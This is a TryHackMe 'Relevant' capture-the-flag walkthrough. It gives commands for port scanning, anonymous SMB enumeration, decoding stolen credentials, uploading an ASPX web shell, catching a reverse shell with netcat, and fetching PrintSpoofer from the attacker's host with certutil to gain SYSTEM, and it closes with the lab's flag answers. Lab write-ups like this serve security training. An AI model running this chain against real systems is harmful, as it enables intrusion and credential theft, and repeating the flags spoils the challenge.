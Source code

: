 
# TryHackMe - Relevant Walkthrough

## 🔎 Nmap Scan

```bash
nmap -sC -sV -p- $target
```
### scan for TCP Ports
```bash
nmap -Pn -T4 -sS -p- -oN full_tcp_scan.txt $target
```
### scan for open ports
```bash
nmap -sC -sV -O -oN targeted_scan.txt -p 80, 135, 139, 445, 3389, 49663, 49666, 49667 $target
```
### Open Ports

- **80, 49663** → Microsoft IIS 10.0
- **135, 139, 445, 49666, 49667** → MS RPC & SMB
- **3389** → RDP
- **Vulnerable Service**: SMBv1 (CVE-2017-0143 / MS17-010)

```bash
nmap -p 445 --script smb-vuln-ms17-010 $target
```

---

## 📁 Enumerate SMB

```bash
smbclient -L //$target/ -N
```

### Shares Found:
- `ADMIN$`
- `C$`
- `IPC$`
- `nt4wrksv` ✅

```bash
smbclient \\$target\nt4wrksv
smb: \> get passwords.txt
```

### Decoded Passwords:

```bash
echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
# Bob - !P@$$W0rD!123

echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
# Bill - Juw4nnaM4n420696969!$$$
```

---

## ⚡ Gaining Access (Initial Shell)

### Upload Web Shell via SMB:

```bash
smbclient \\$target\nt4wrksv
smb: \> put shell.aspx
```

### Execute Shell:

```url
http://$target:49663/nt4wrksv/shell.aspx
```

### Get Reverse Shell:
Set up a listener:

```bash
nc -lvnp 4444
```

### Retrieve `user.txt`:
Found at `C:\Users\Bob\Desktop\user.txt`

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

---

## 🧨 Privilege Escalation via PrintSpoofer

### Step 1: Download on Kali

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

### Step 2: Download on Victim

```cmd
certutil -urlcache -split -f http://10.21.183.238/PrintSpoofer64.exe PrintSpoofer64.exe
```

### Step 3: Exploit for SYSTEM Access

```cmd
PrintSpoofer64.exe -i -c cmd
```

### Step 4: Retrieve `root.txt`

Found at: `C:\Users\Administrator\Desktop\root.txt`

```
THM{1fk5kf469devly1gl320zafgl345pv}
```

---

## ✅ Flags Summary

| Flag       | Value                                  |
|------------|----------------------------------------|
| `user.txt` | `THM{fdk4ka34vk346ksxfr21tg789ktf45}`  |
| `root.txt` | `THM{1fk5kf469devly1gl320zafgl345pv}`  |

---

## 🔚 Box Complete!
